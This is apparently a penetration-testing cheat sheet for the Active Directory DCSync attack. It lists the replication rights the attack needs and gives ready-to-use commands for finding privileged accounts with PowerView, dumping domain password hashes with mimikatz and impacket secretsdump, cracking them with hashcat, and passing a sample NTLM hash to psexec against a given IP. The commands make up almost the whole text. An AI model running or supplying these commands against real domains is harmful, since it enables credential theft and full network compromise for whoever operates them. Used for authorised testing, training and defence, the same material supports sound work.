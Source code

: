 To launch a DSsync attac, a user needs to have the following
privileges:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set rights.

By default, members of the Domain Admins, Enterprise Admins, and
Administrators groups have these rights assigned.

Using mimikatz, provide the user for which we want to obtain creds

# Find Users with required permissions
```bash
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

-----------------------

# Dump hash with Mimikatz
```bash
privilege::debug

lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\Administrator
```

# Dump hash with impacket
```bash
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
```

-----------------------

# Cracking with hashcat
```bash
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

-----------------------

# Use the NTLM hash directly
```bash
impacket-psexec corp\dave@192.168.196.248 -hashes :56e4633688c0fdd57c610faf9d7ab8df
```

